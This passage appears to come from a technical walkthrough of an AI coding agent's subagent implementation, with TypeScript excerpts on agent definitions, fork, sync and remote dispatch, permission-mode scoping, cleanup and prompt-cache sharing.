The `AgentDefinition` type is a union of built-in, custom, and plugin variants. The full type analysis is in Chapter 20; here we focus on the fields that directly affect the AgentTool's dispatch logic. The `BaseAgentDefinition` carries 22 fields spanning the entire subagent lifecycle from spawning to cleanup:

```typescript
// src/tools/AgentTool/loadAgentsDir.ts:L106-L133
export type BaseAgentDefinition = {
  agentType: string
  whenToUse: string
  tools?: string[]
  disallowedTools?: string[]
  skills?: string[] // Skill names to preload (parsed from comma-separated frontmatter)
  mcpServers?: AgentMcpServerSpec[] // MCP servers specific to this agent
  hooks?: HooksSettings // Session-scoped hooks registered when agent starts
  color?: AgentColorName
  model?: string
  effort?: EffortValue
  permissionMode?: PermissionMode
  maxTurns?: number // Maximum number of agentic turns before stopping
  filename?: string // Original filename without .md extension (for user/project/managed agents)
  baseDir?: string
  criticalSystemReminder_EXPERIMENTAL?: string // Short message re-injected at every user turn
  requiredMcpServers?: string[] // MCP server name patterns that must be configured for agent to be available
  background?: boolean // Always run as background task when spawned
  initialPrompt?: string // Prepended to the first user turn (slash commands work)
  memory?: AgentMemoryScope // Persistent memory scope
  isolation?: 'worktree' | 'remote' // Run in an isolated git worktree, or remotely in CCR (ant-only)
  pendingSnapshotUpdate?: { snapshotTimestamp: string }
  /** Omit CLAUDE.md hierarchy from the agent's userContext. Read-only agents
   * (Explore, Plan) don't need commit/PR/lint guidelines — the main agent has
   * full CLAUDE.md and interprets their output. Saves ~5-15 Gtok/week across
   * 34M+ Explore spawns. Kill-switch: tengu_slim_subagent_claudemd. */
  omitClaudeMd?: boolean
}
```

The `tools` and `disallowedTools` fields control the subagent's tool pool by whitelisting and blacklisting tool names. The `permissionMode` overrides the parent's mode for the subagent's session. The `background` flag forces the agent to run asynchronously regardless of the `run_in_background` input. The `maxTurns` caps the number of API round-trips. The `isolation` field mirrors the input field and can be set at the agent definition level rather than per-invocation. The `omitClaudeMd` flag is a production optimization for read-only agents (Explore, Plan) that do not need the full CLAUDE.md hierarchy, saving 5-15 Gtok/week across 34M+ Explore spawns.

## Control flow

### Dispatch selection

The AgentTool's `call()` method routes the request through a decision tree based on multiple conditions: whether the fork experiment is active, whether the agent should run in background, whether isolation is requested, and whether remote eligibility checks pass. The dispatch logic is the most complex part of the AgentTool because it must handle five distinct execution paths with different state isolation, communication, and cleanup semantics:

```mermaid
flowchart TD
    A[AgentTool.call invoked] --> B{Fork gate enabled?}
    B -->|No subagent_type & fork on| C[Fork path: inherit parent context]
    B -->|subagent_type specified| D{isolation requested?}
    B -->|Default| E{run_in_background?}
    D -->|worktree| F[Create git worktree + async launch]
    D -->|remote| G[CCR remote launch]
    E -->|true| H[Async background task]
    E -->|false| I[Sync foreground execution]
    C --> J[Return fork result]
    F --> K[Return async_launched + worktree info]
    G --> L[Return remote_launched + session URL]
    H --> M[Return async_launched + output file]
    I --> N[Return completed + agent result]
```

The fork path is triggered when `isForkSubagentEnabled()` returns true and no `subagent_type` is specified. This path inherits the parent's full conversation context and system prompt for cache sharing. The subagent_type path resolves the agent definition from the catalog and checks the `isolation` field. The default path checks `run_in_background` and either runs synchronously or asynchronously.

### Fork recursion guard

Fork children keep the Agent tool in their tool pool for cache-identical tool definitions. A recursive fork would create infinite children, each spawning its own children in an uncontrolled chain. The guard `isInForkChild()` checks for the `FORK_BOILERPLATE_TAG` in conversation history to prevent this:

```typescript
// src/tools/AgentTool/forkSubagent.ts:L78-L89
export function isInForkChild(messages: MessageType[]): boolean {
  return messages.some(m => {
    if (m.type !== 'user') return false
    const content = m.message.content
    if (!Array.isArray(content)) return false
    return content.some(
      block =>
        block.type === 'text' &&
        block.text.includes(`<${FORK_BOILERPLATE_TAG}>`),
    )
  })
}
```

This guard is supplemented by a `querySource` check on `toolUseContext.options.querySource`. The `querySource` approach survives autocompact, which replaces message content and would defeat the message-scan fallback. The dual-guard design ensures that recursive forking is prevented even when one guard's signal is lost during context compaction.

### Auto-background timing

When auto-background agents are enabled (via environment variable or GrowthBook gate), agents that run longer than 120 seconds are automatically backgrounded. This transforms a synchronous, blocking agent into an asynchronous one mid-execution, allowing the parent to continue other work:

```typescript
// src/tools/AgentTool/AgentTool.tsx:L72-L77
function getAutoBackgroundMs(): number {
  if (isEnvTruthy(process.env.CLAUDE_AUTO_BACKGROUND_TASKS) ||
      getFeatureValue_CACHED_MAY_BE_STALE('tengu_auto_background_agents', false)) {
    return 120_000;
  }
  return 0;
}
```

The auto-background mechanism creates a `LocalAgentTaskState` for the running agent, registers it in the task system, and returns an `async_launched` result to the parent. The parent receives a `<task-notification>` when the agent completes. If the agent finishes before the 120-second threshold, it returns synchronously and the auto-background mechanism is never triggered.

### Worktree isolation

When `isolation: 'worktree'` is specified, the AgentTool creates a temporary git worktree so the subagent operates on an isolated copy of the repository. The worktree is created via `createAgentWorktree()` and cleaned up after the agent completes. The worktree path is persisted to the agent's metadata so that a resumed agent can restore the correct working directory.

Worktree isolation is opt-in because it has a cost: disk space for the worktree copy, setup time for the `git worktree add` operation, and cleanup complexity when the agent modifies files. The `hasWorktreeChanges()` check logs a warning before removing a worktree with uncommitted changes, preventing silent data loss. The `buildWorktreeNotice()` function injects a notice into the fork child's context, telling it to translate paths from the inherited context to the worktree's root.

### MCP server initialization

Agents can define their own MCP servers in their frontmatter. These are additive to the parent's MCP clients and are connected when the agent starts. The `initializeAgentMcpServers` function handles both named references (shared from parent) and inline definitions (created and destroyed per-agent):

```typescript
// src/tools/AgentTool/runAgent.ts:L95-L110
async function initializeAgentMcpServers(
  agentDefinition: AgentDefinition,
  parentClients: MCPServerConnection[],
): Promise<{
  clients: MCPServerConnection[]
  tools: Tools
  cleanup: () => Promise<void>
}> {
  // If no agent-specific servers defined, return parent clients as-is
  if (!agentDefinition.mcpServers?.length) {
    return {
      clients: parentClients,
      tools: [],
      cleanup: async () => {},
    }
  }
```

The cleanup function distinguishes between shared clients (referenced by string name) and newly created clients (inline definitions). Only newly created clients are cleaned up when the agent finishes; shared clients remain connected for the parent's use. Under the `strictPluginOnlyCustomization` policy, user-controlled agents cannot define MCP servers in their frontmatter. Only admin-trusted agents (built-in, plugin, policySettings) can specify MCP servers, preventing supply-chain attacks through user-defined agent definitions.

### omitClaudeMd and systemContext optimizations

Two production optimizations reduce the context cost of spawning read-only agents. The `omitClaudeMd` flag drops the full CLAUDE.md hierarchy from the subagent's `userContext`, saving 5-15 Gtok/week across 34M+ Explore spawns. Read-only agents (Explore, Plan) do not act on commit/PR/lint rules from CLAUDE.md because the main agent has full context and interprets their output. The flag is controlled by the `tengu_slim_subagent_claudemd` GrowthBook feature flag, with a kill-switch that defaults to true (omitting CLAUDE.md). Explicit `override.userContext` from callers is preserved untouched:

```typescript
// src/tools/AgentTool/runAgent.ts:L390-L398
const shouldOmitClaudeMd =
  agentDefinition.omitClaudeMd &&
  !override?.userContext &&
  getFeatureValue_CACHED_MAY_BE_STALE('tengu_slim_subagent_claudemd', true)
const { claudeMd: _omittedClaudeMd, ...userContextNoClaudeMd } =
  baseUserContext
const resolvedUserContext = shouldOmitClaudeMd
  ? userContextNoClaudeMd
  : baseUserContext
```

Similarly, the `gitStatus` field (up to 40KB, explicitly labeled stale) is dropped from the `systemContext` of Explore and Plan agents. These agents run `git status` themselves when they need fresh data, making the stale parent-session gitStatus dead weight that costs 1-3 Gtok/week fleet-wide.

### SubagentStart hooks and skill preloading

Before the subagent's query loop starts, the `runAgent` function executes two initialization steps. First, it runs `SubagentStart` hooks and collects any `additionalContexts` they produce. These contexts are injected as attachment messages into the subagent's initial messages, consistent with the `SessionStart` and `UserPromptSubmit` hook patterns:

```typescript
// src/tools/AgentTool/runAgent.ts:L531-L543
const additionalContexts: string[] = []
for await (const hookResult of executeSubagentStartHooks(
  agentId,
  agentDefinition.agentType,
  agentAbortController.signal,
)) {
  if (
    hookResult.additionalContexts &&
    hookResult.additionalContexts.length > 0
  ) {
    additionalContexts.push(...hookResult.additionalContexts)
  }
}
```

Second, it preloads skills specified in the agent's `skills` frontmatter field. The skill resolution logic tries three strategies: exact match, prefix with the agent's plugin name, and suffix match. This handles the common case where plugin agents reference skills with bare names that are registered with namespaced names:

```typescript
// src/tools/AgentTool/runAgent.ts:L945-L973
function resolveSkillName(
  skillName: string,
  allSkills: Command[],
  agentDefinition: AgentDefinition,
): string | null {
  // 1. Direct match
  if (hasCommand(skillName, allSkills)) {
    return skillName
  }

  // 2. Try prefixing with the agent's plugin name
  const pluginPrefix = agentDefinition.agentType.split(':')[0]
  if (pluginPrefix) {
    const qualifiedName = `${pluginPrefix}:${skillName}`
    if (hasCommand(qualifiedName, allSkills)) {
      return qualifiedName
    }
  }

  // 3. Suffix match — find a skill whose name ends with ":skillName"
  const suffix = `:${skillName}`
  const match = allSkills.find(cmd => cmd.name.endsWith(suffix))
  if (match) {
    return match.name
  }

  return null
}
```

After skill resolution, the valid skills are loaded concurrently via `Promise.all`, and their content is injected into the subagent's initial messages as meta-messages with `isMeta: true`. The `formatSkillLoadingMetadata` function adds command-message metadata so the UI shows which skill is loading. This concurrent loading pattern avoids serializing skill resolution when an agent specifies multiple skills, reducing the startup latency for skill-heavy agent definitions.

### Permission mode scoping

The subagent's permission context is scoped independently from the parent. The `agentGetAppState` function in `runAgent.ts` constructs a closure that applies the agent definition's `permissionMode` override while preserving critical parent-level constraints. The override logic prevents escalation: `bypassPermissions` and `acceptEdits` at the parent level always take precedence over the agent definition's `permissionMode`. Async agents that cannot show UI have `shouldAvoidPermissionPrompts` set to true, causing permission checks to auto-deny rather than blocking on a dialog that will never appear. The `bubble` mode (used by fork children) always shows permission prompts to the parent terminal, even though the child is technically async. Background agents that can show prompts also set `awaitAutomatedChecksBeforeDialog: true`, ensuring the user is only interrupted when automated checks cannot resolve the permission.

### Agent cleanup lifecycle

The `runAgent` function's `finally` block performs cleanup steps in sequence, ensuring that no resources leak when the agent finishes (whether by completion, abort, or error):

```typescript
// src/tools/AgentTool/runAgent.ts:L816-L858
  } finally {
    // Clean up agent-specific MCP servers (runs on normal completion, abort, or error)
    await mcpCleanup()
    // Clean up agent's session hooks
    if (agentDefinition.hooks) {
      clearSessionHooks(rootSetAppState, agentId)
    }
    // Clean up prompt cache tracking state for this agent
    if (feature('PROMPT_CACHE_BREAK_DETECTION')) {
      cleanupAgentTracking(agentId)
    }
    // Release cloned file state cache memory
    agentToolUseContext.readFileState.clear()
    // Release the cloned fork context messages
    initialMessages.length = 0
    // Release perfetto agent registry entry
    unregisterPerfettoAgent(agentId)
    // Release transcript subdir mapping
    clearAgentTranscriptSubdir(agentId)
    // Release this agent's todos entry. Without this, every subagent that
    // called TodoWrite leaves a key in AppState.todos forever (even after all
    // items complete, the value is [] but the key stays). Whale sessions
    // spawn hundreds of agents; each orphaned key is a small leak that adds up.
    rootSetAppState(prev => {
      if (!(agentId in prev.todos)) return prev
      const { [agentId]: _removed, ...todos } = prev.todos
      return { ...prev, todos }
    })
    // Kill any background bash tasks this agent spawned. Without this, a
    // `run_in_background` shell loop (e.g. test fixture fake-logs.sh) outlives
    // the agent as a PPID=1 zombie once the main session eventually exits.
    killShellTasksForAgent(agentId, toolUseContext.getAppState, rootSetAppState)
```

The todo-cleanup step is particularly important for long-running sessions that spawn hundreds of subagents. Without this cleanup, every subagent that called TodoWrite would leave a key in `AppState.todos` forever, even after all items complete. The `killShellTasksForAgent` step prevents zombie processes: a `run_in_background` shell loop started by a subagent would otherwise outlive the agent as a PPID=1 orphan.

The cleanup order matters. MCP servers must be disconnected before the agent's hooks are cleared, because a `SubagentStop` hook might attempt to call an MCP tool. File state cache and initial messages are cleared last because they are large objects that hold references to the agent's conversation history. The transcript subdir mapping is cleared to prevent the mapping from growing unboundedly across thousands of agent spawns in a single session.

## Edge cases and failure modes

- **Fork recursion guard**: Fork children keep the Agent tool in their pool for cache-identical tool definitions. A recursive fork would create infinite children. The guard `isInForkChild()` checks for the `FORK_BOILERPLATE_TAG` in conversation history to prevent this. A secondary guard checks `querySource` on `toolUseContext.options`, which survives autocompact (which can destroy the boilerplate message).
- **Agent deny rules**: The permission system can deny specific agent types via `filterDeniedAgents()`. This prevents users or administrators from blocking expensive or dangerous subagent types while keeping the Agent tool itself available. The deny check happens before the dispatch decision, so denied agents never reach the execution path.
- **MCP server not found**: When an agent references an MCP server by name that does not exist in the user's configuration, the server is silently skipped with a debug log. The agent still launches without the missing server's tools. This is a soft failure: the agent may lack capabilities it expects, but the system does not crash.
- **Remote eligibility preconditions**: Remote agent launch requires multiple preconditions: logged in with Claude.ai account, cloud environment available, git repo with GitHub remote, and the Claude GitHub app installed. Any missing precondition returns a specific error message, and the dispatch falls back to local execution.
- **Auto-background race condition**: If auto-background is enabled and the agent completes before the 120-second threshold, it returns synchronously. The timing check happens on a per-agent basis, so there is no global race. However, the transition from sync to async mid-execution requires careful state management: the `LocalAgentTaskState` must be created with the agent's accumulated messages and usage metrics.
- **Worktree cleanup failure**: If the agent modifies files in the worktree and the cleanup fails, orphaned worktrees can accumulate. The `hasWorktreeChanges()` check logs a warning before removal but does not block cleanup. Orphaned worktrees consume disk space and can confuse `git worktree list` output.
- **Permission mode escalation prevention**: A subagent's `permissionMode` override cannot escalate beyond the parent's trust level. If the parent is in `bypassPermissions` or `acceptEdits`, the override is silently ignored. This prevents a malicious agent definition from gaining more permissions than the parent intended.
- **Skill resolution failure**: When an agent's `skills` frontmatter references a skill that does not exist, the skill is silently skipped with a warning. The agent still launches without the skill's content in its initial context. This graceful degradation prevents a typo in a skill name from breaking the agent definition.

## Where cc diverges from the published pattern

**HER Section 7.4 prescribes using expensive models for orchestration and cheaper models for subtasks.** cc implements this partially through the `model` input parameter and agent definitions that can specify model overrides. However, the default behavior is to inherit the parent's model unless explicitly overridden. The model routing described in HER (Opus for parent, Sonnet/Haiku for children) is not automatic; it requires explicit configuration in the agent definition or tool call. The `model` field on `BaseAgentDefinition` and the `model` input parameter both support the `sonnet`, `opus`, and `haiku` aliases, but neither defaults to a cheaper model for subtasks.

**HER Pattern 7 (Context-Isolated Subagents)** states that research agents cannot edit. cc implements this through the permission mode system: agents spawned in `plan` mode are restricted to read-only tools, but this is a permission-level constraint, not a hard type-system separation. An agent definition could theoretically grant edit tools to a research agent by setting `tools: ['*']` and `permissionMode: 'bypassPermissions'`. The isolation is enforced by policy, not by architecture.

**HER Pattern 8 (Fork-Join Parallelism)** describes "cached parent context reuse" as a key optimization. cc implements this through the `CacheSafeParams` type in `forkedAgent.ts`, which ensures fork children share byte-identical API request prefixes with the parent for prompt cache hits. However, the join operation is not a formal barrier sync; results are delivered via `<task-notification>` messages that arrive asynchronously. The parent does not wait for all fork children to complete before proceeding; it processes each notification independently as it arrives.

**The `omitClaudeMd` flag** is a cc-specific optimization not described in HER. Read-only agents (Explore, Plan) do not need the full CLAUDE.md hierarchy with commit/PR/lint guidelines. Omitting it from the subagent's userContext saves 5-15 Gtok/week across 34M+ Explore spawns. Similarly, the `systemContext` optimization that drops `gitStatus` (up to 40KB) from Explore and Plan agents saves an additional 1-3 Gtok/week fleet-wide. These are production optimizations that demonstrate the cost sensitivity of long-running agent systems at scale.

## Developer takeaways for building a long-running agent

1. **Design the subagent input schema for progressive disclosure.** Start with a minimal base schema (description, prompt) and add complexity through optional fields. The `lazySchema` wrapper defers evaluation until first call, ensuring feature flags are populated before schema construction.

2. **Use discriminated union outputs, not polymorphic objects.** The `status` field in the output schema (completed, async_launched, remote_launched, teammate_spawned) lets callers handle each case with type-safe pattern matching.

3. **Guard recursive spawning explicitly.** Any system that lets agents spawn agents must prevent infinite recursion. cc's dual-guard approach (message-scan plus querySource check) provides defense in depth across autocompact boundaries.

4. **Separate internal output types from the public schema.** cc uses separate `TeammateSpawnedOutput` and `RemoteLaunchedOutput` types excluded from the Zod output schema for dead code elimination, keeping the model-facing schema minimal while preserving type safety internally.

5. **Prevent permission escalation through subagent definitions.** A subagent's `permissionMode` override should never escalate beyond the parent's trust level. cc enforces this by checking the parent's mode before applying the override.

6. **Clean up subagent state aggressively.** The nine-step cleanup in `runAgent`'s `finally` block ensures no resources leak. Pay particular attention to MCP server connections, session hooks, todo state, and background shell processes.

7. **Cache-safe parameter threading for fork children.** When forking a subagent that shares the parent's prompt cache, thread the exact rendered system prompt bytes rather than re-rendering to prevent cache invalidation from flag changes between render and fork.
# Sync vs Fork vs Remote: The Execution Modes

## Overview

cc's AgentTool supports three fundamentally different execution modes for subagents, each with distinct tradeoffs in context sharing, state isolation, communication latency, and resource consumption. Understanding when to use each mode is critical for building reliable multi-agent orchestrations.

- **Sync mode**: The subagent runs in the same process, in the same event loop, blocking the parent's query loop until completion. The subagent gets its own context window but shares the process's memory and AppState.

- **Fork mode**: The subagent runs as a child process via `Bun.fork()`, with its own memory space and event loop. The child inherits the parent's conversation context for prompt cache sharing, then diverges as it processes its directive.

- **Remote mode**: The subagent runs in a cloud CCR (Claude Code Remote) environment, on a different machine entirely. Communication happens via HTTP polling and webhook notifications.

These three tiers map directly to HER Section 9.1's three tiers of multi-agent orchestration: in-process subagents, local orchestrators, and cloud async. This chapter examines each mode's implementation, tradeoffs, and failure handling.

## Data structures and contracts

### Fork agent definition

The fork path uses a synthetic agent definition that inherits the parent's full tool pool and model. This definition is not registered in the `builtInAgents` catalog; it is used only when `subagent_type` is omitted and the fork experiment is active:

```typescript
// src/tools/AgentTool/forkSubagent.ts:L60-L71
export const FORK_AGENT = {
  agentType: FORK_SUBAGENT_TYPE,
  whenToUse:
    'Implicit fork — inherits full conversation context. Not selectable via subagent_type; triggered by omitting subagent_type when the fork experiment is active.',
  tools: ['*'],
  maxTurns: 200,
  model: 'inherit',
  permissionMode: 'bubble',
  source: 'built-in',
  baseDir: 'built-in',
  getSystemPrompt: () => '',
} satisfies BuiltInAgentDefinition
```

The `tools: ['*']` with `useExactTools` means the fork child receives the parent's exact tool pool, producing cache-identical API request prefixes. The `permissionMode: 'bubble'` means permission prompts surface to the parent terminal, since the child process has no terminal of its own. The `model: 'inherit'` keeps the parent's model for context length parity and cache sharing. The `getSystemPrompt` function returns an empty string because the fork path passes `override.systemPrompt` with the parent's already-rendered system prompt bytes, threaded via `toolUseContext.renderedSystemPrompt`. Reconstructing the prompt by re-calling `getSystemPrompt()` can diverge (GrowthBook cold-to-warm flag changes) and bust the prompt cache; threading the rendered bytes is byte-exact.

### CacheSafeParams

The fork path must share byte-identical API request prefixes with the parent for prompt cache hits. The Anthropic API cache key is composed of system prompt, tools, model, messages prefix, and thinking config. The `CacheSafeParams` type carries the first five parameters:

```typescript
// src/utils/forkedAgent.ts:L57-L68
export type CacheSafeParams = {
  /** System prompt - must match parent for cache hits */
  systemPrompt: SystemPrompt
  /** User context - prepended to messages, affects cache */
  userContext: { [k: string]: string }
  /** System context - appended to system prompt, affects cache */
  systemContext: { [k: string]: string }
  /** Tool use context containing tools, model, and other options */
  toolUseContext: ToolUseContext
  /** Parent context messages for prompt cache sharing */
  forkContextMessages: Message[]
}
```

The `CacheSafeParams` are captured immediately after the subagent's system prompt and context are assembled, via the `onCacheSafeParams` callback in `runAgent`. This timing is critical: if any GrowthBook flag changes between prompt assembly and capture, the cached params will not match the rendered prompt, and the fork child will miss the cache. The `saveCacheSafeParams` and `getLastCacheSafeParams` functions store the most recent params globally, allowing post-turn forks (prompt suggestion, post-turn summary, `/btw`) to share the main loop's prompt cache without each caller threading params through separately.

### ForkedAgentParams

The full parameter set for running a forked agent includes cache-safe params, prompt messages, and optional overrides. Each field has specific implications for cache sharing and resource management:

```typescript
// src/utils/forkedAgent.ts:L83-L113
export type ForkedAgentParams = {
  /** Messages to start the forked query loop with */
  promptMessages: Message[]
  /** Cache-safe parameters that must match the parent query */
  cacheSafeParams: CacheSafeParams
  /** Permission check function for the forked agent */
  canUseTool: CanUseToolFn
  /** Source identifier for tracking */
  querySource: QuerySource
  /** Label for analytics (e.g., 'session_memory', 'supervisor') */
  forkLabel: string
  /** Optional overrides for the subagent context (e.g., readFileState from setup phase) */
  overrides?: SubagentContextOverrides
  /**
   * Optional cap on output tokens. CAUTION: setting this changes both max_tokens
   * AND budget_tokens (via clamping in claude.ts). If the fork uses cacheSafeParams
   * to share the parent's prompt cache, a different budget_tokens will invalidate
   * the cache — thinking config is part of the cache key. Only set this when cache
   * sharing is not a goal (e.g., compact summaries).
   */
  maxOutputTokens?: number
  /** Optional cap on number of turns (API round-trips) */
  maxTurns?: number
  /** Optional callback invoked for each message as it arrives (for streaming UI) */
  onMessage?: (message: Message) => void
  /** Skip sidechain transcript recording (e.g., for ephemeral work like speculation) */
  skipTranscript?: boolean
  /** Skip writing new prompt cache entries on the last message. For
   *  fire-and-forget forks where no future request will read from this prefix. */
  skipCacheWrite?: boolean
}
```

The `maxOutputTokens` field comes with a critical caveat: setting it changes both `max_tokens` and `budget_tokens` (via clamping in `claude.ts`). If the fork uses `cacheSafeParams` to share the parent's prompt cache, a different `budget_tokens` will invalidate the cache, because thinking config is part of the cache key. This field should only be set when cache sharing is not a goal (e.g., compact summaries that intentionally use a different context window size).

The `skipTranscript` flag disables sidechain transcript recording for ephemeral work like speculation. The `skipCacheWrite` flag skips writing new prompt cache entries on the last message, which is appropriate for fire-and-forget forks where no future request will read from this prefix.

### Remote agent task state

Remote agents are tracked via a task state with polling metadata. The state captures the CCR session identifier, command, progress, and review-specific metadata:

```typescript
// src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L22-L59
export type RemoteAgentTaskState = TaskStateBase & {
  type: 'remote_agent';
  remoteTaskType: RemoteTaskType;
  /** Task-specific metadata (PR number, repo, etc.). */
  remoteTaskMetadata?: RemoteAgentMetadata;
  sessionId: string; // Original session ID for API calls
  command: string;
  title: string;
  todoList: TodoList;
  log: SDKMessage[];
  /**
   * Long-running agent that will not be marked as complete after the first `result`.
   */
  isLongRunning?: boolean;
  /**
   * When the local poller started watching this task (at spawn or on restore).
   * Review timeout clocks from here so a restore doesn't immediately time out
   * a task spawned >30min ago.
   */
  pollStartedAt: number;
  /** True when this task was created by a teleported /ultrareview command. */
  isRemoteReview?: boolean;
  /** Parsed from the orchestrator's <remote-review-progress> heartbeat echoes. */
  reviewProgress?: {
    stage?: 'finding' | 'verifying' | 'synthesizing';
    bugsFound: number;
    bugsVerified: number;
    bugsRefuted: number;
  };
  isUltraplan?: boolean;
  /**
   * Scanner-derived pill state. Undefined = running. `needs_input` when the
   * remote asked a clarifying question and is idle; `plan_ready` when
   * ExitPlanMode is awaiting browser approval. Surfaced in the pill badge
   * and detail dialog status line.
   */
  ultraplanPhase?: Exclude<UltraplanPhase, 'running'>;
};
```

The `pollStartedAt` timestamp is critical for timeout handling: if the CCR session drops during a remote agent's execution, the local poller continues polling until a timeout. The timestamp ensures that restored sessions do not immediately time out based on the original spawn time, which could be hours before the session was restored. The `reviewProgress` field tracks structured progress for remote review tasks, providing machine-readable metrics (bugs found, verified, refuted) that can be surfaced to users in the terminal UI. The `isLongRunning` flag prevents the poller from treating a single `result` event as terminal, which is necessary for monitors that emit periodic results.

### Local agent task state

Local (sync and background) agents are tracked with a richer state including progress tracking and message queuing. This state is used by the task system to manage the agent's lifecycle, display progress, and handle inter-agent communication:

```typescript
// src/tasks/LocalAgentTask/LocalAgentTask.tsx:L116-L148
export type LocalAgentTaskState = TaskStateBase & {
  type: 'local_agent';
  agentId: string;
  prompt: string;
  selectedAgent?: AgentDefinition;
  agentType: string;
  model?: string;
  abortController?: AbortController;
  unregisterCleanup?: () => void;
  error?: string;
  result?: AgentToolResult;
  progress?: AgentProgress;
  retrieved: boolean;
  messages?: Message[];
  // Track what we last reported for computing deltas
  lastReportedToolCount: number;
  lastReportedTokenCount: number;
  // Whether the task has been backgrounded (false = foreground running, true = backgrounded)
  isBackgrounded: boolean;
  // Messages queued mid-turn via SendMessage, drained at tool-round boundaries
  pendingMessages: string[];
  // UI is holding this task: blocks eviction, enables stream-append, triggers
  // disk bootstrap. Set by enterTeammateView. Separate from viewingAgentTaskId
  // (which is "what am I LOOKING at") — retain is "what am I HOLDING."
  retain: boolean;
  // Bootstrap has read the sidechain JSONL and UUID-merged into messages.
  // One-shot per retain cycle; stream appends from there.
  diskLoaded: boolean;
  // Panel visibility deadline. undefined = no deadline (running or retained);
  // timestamp = hide + GC-eligible after this time. Set at terminal transition
  // and on unselect; cleared on retain.
  evictAfter?: number;
};
```

The `unregisterCleanup` field stores a cleanup function registered via the `registerCleanup` utility, which fires on agent kill to release resources like background bash processes. The `pendingMessages` array queues `SendMessage` messages for the agent, drained at the next tool-round boundary. The `retain` flag prevents the task from being garbage-collected when the parent session is compacted. The `diskLoaded` flag indicates whether the task's messages were loaded from disk (on session resume) rather than accumulated in memory. The `evictAfter` timestamp enables time-based eviction of completed tasks to manage memory in long-running sessions.

### ProgressTracker

Local agents track tool use count, token consumption, and recent activities for progress reporting. This provides machine-readable progress that can be surfaced to users and used for adaptive decisions:

```typescript
// src/tasks/LocalAgentTask/LocalAgentTask.tsx:L41-L49
export type ProgressTracker = {
  toolUseCount: number;
  // Track input and output separately to avoid double-counting.
  // input_tokens in Claude API is cumulative per turn (includes all previous context),
  // so we keep the latest value. output_tokens is per-turn, so we sum those.
  latestInputTokens: number;
  cumulativeOutputTokens: number;
  recentActivities: ToolActivity[];
};
```

The `recentActivities` array captures the last N tool invocations (capped at `MAX_RECENT_ACTIVITIES = 5`) with their names, inputs, and pre-computed activity descriptions. Input tokens and output tokens are tracked separately because the Claude API reports `input_tokens` as cumulative per turn (already includes all previous context), while `output_tokens` is per-turn, requiring summation. The `createProgressTracker` function initializes a fresh tracker, and `updateProgressFromMessage` increments counters and appends activities as each assistant message arrives.

## Control flow

### Sync mode execution

In sync mode, the parent's query loop calls `runAgent()` directly, which creates a subagent context, initializes MCP servers, and runs a nested `query()` call. The parent blocks until the subagent finishes. The subagent shares the parent's AppState but has its own conversation history and permission context:

```mermaid
sequenceDiagram
    participant Parent as Parent Query Loop
    participant AgentTool as AgentTool.call()
    participant RunAgent as runAgent()
    participant SubAgent as Subagent Query Loop

    Parent->>AgentTool: Invoke with subagent_type
    AgentTool->>RunAgent: Create subagent context
    RunAgent->>RunAgent: Initialize MCP servers
    RunAgent->>RunAgent: Clone file state cache
    RunAgent->>SubAgent: query(promptMessages)
    SubAgent->>SubAgent: Execute turns
    SubAgent->>RunAgent: Return messages + usage
    RunAgent->>RunAgent: Cleanup MCP connections
    RunAgent->>AgentTool: Return agent result
    AgentTool->>Parent: Return completed status
```

The sync path is the simplest execution mode but has important implications for the parent's event loop. Because the parent blocks on the subagent's `query()` generator, it cannot process user input, handle interrupt signals, or respond to other subagent notifications during the subagent's execution. This is acceptable for short-lived agents (Explore, Plan) but problematic for long-running agents that may take minutes to complete.

The sync path's key data flow inside `runAgent` is:

1. `AgentTool.call()` resolves the agent definition from the `subagent_type` parameter and assembles the tool pool via `assembleToolPool` and `resolveAgentTools`.

2. `runAgent()` constructs the agent's system prompt, either from the definition's `getSystemPrompt()` or by threading the parent's rendered system prompt bytes via `override.systemPrompt` (the fork path).

3. It resolves the user context and system context. For read-only agents (Explore, Plan), the `omitClaudeMd` optimization drops CLAUDE.md content, and the `systemContext` drops the stale `gitStatus` field, saving 5-15 Gtok/week across the fleet.

4. It initializes agent-specific MCP servers via `initializeAgentMcpServers`, which merges parent clients with any frontmatter-defined servers and returns a cleanup function.

5. It creates the subagent context via `createSubagentContext`, which clones the file state cache, sets up an isolated or shared `AbortController`, and configures the permission mode.

6. The core loop iterates over `query()` as an async generator, yielding messages back to the caller. For each message:
   - `stream_event` messages with `message_start` type are forwarded to the parent's metrics display via `pushApiMetricsEntry`, then skipped (not recorded in the transcript).
   - `attachment` messages (including `max_turns_reached`) are yielded without recording.
   - `isRecordableMessage` messages (assistant, user, progress, compact_boundary) are appended to the sidechain transcript with parent-chain UUIDs and yielded.

7. The `finally` block performs a seven-step cleanup: MCP server disconnects, session hook removal, prompt cache tracking cleanup, file state cache release, fork context messages release, perfetto agent unregistration, and orphaned todo key removal.

The sync path shares the `setAppState` callback with the parent for sync agents but creates an isolated `AbortController` for async agents. This means sync agents contribute to the parent's UI state updates (permission prompts, tool progress), while async agents run in isolation and report results asynchronously. The `shareSetResponseLength: true` setting applies to both sync and async agents, ensuring that both contribute to the parent's response length metrics for accurate token budget tracking.

### Fork mode execution

The fork path is triggered when `isForkSubagentEnabled()` returns true and no `subagent_type` is specified. This path is designed for parallel work that shares the parent's prompt cache, reducing cost by 50-90% for the shared prefix. The parent's current assistant message (containing all tool_use blocks) is cloned, and identical placeholder tool_results are inserted for cache sharing. Then a per-child directive is appended:

```typescript
// src/tools/AgentTool/forkSubagent.ts:L107-L169
export function buildForkedMessages(
  directive: string,
  assistantMessage: AssistantMessage,
): MessageType[] {
  // Clone the assistant message to avoid mutating the original, keeping all
  // content blocks (thinking, text, and every tool_use)
  const fullAssistantMessage: AssistantMessage = {
    ...assistantMessage,
    uuid: randomUUID(),
    message: {
      ...assistantMessage.message,
      content: [...assistantMessage.message.content],
    },
  }

  // Collect all tool_use blocks from the assistant message
  const toolUseBlocks = assistantMessage.message.content.filter(
    (block): block is BetaToolUseBlock => block.type === 'tool_use',
  )

  if (toolUseBlocks.length === 0) {
    logForDebugging(
      `No tool_use blocks found in assistant message for fork directive: ${directive.slice(0, 50)}...`,
      { level: 'error' },
    )
    return [
      createUserMessage({
        content: [
          { type: 'text' as const, text: buildChildMessage(directive) },
        ],
      }),
    ]
  }

  // Build tool_result blocks for every tool_use, all with identical placeholder text
  const toolResultBlocks = toolUseBlocks.map(block => ({
    type: 'tool_result' as const,
    tool_use_id: block.id,
    content: [
      {
        type: 'text' as const,
        text: FORK_PLACEHOLDER_RESULT,
      },
    ],
  }))

  // Build a single user message: all placeholder tool_results + the per-child directive
  const toolResultMessage = createUserMessage({
    content: [
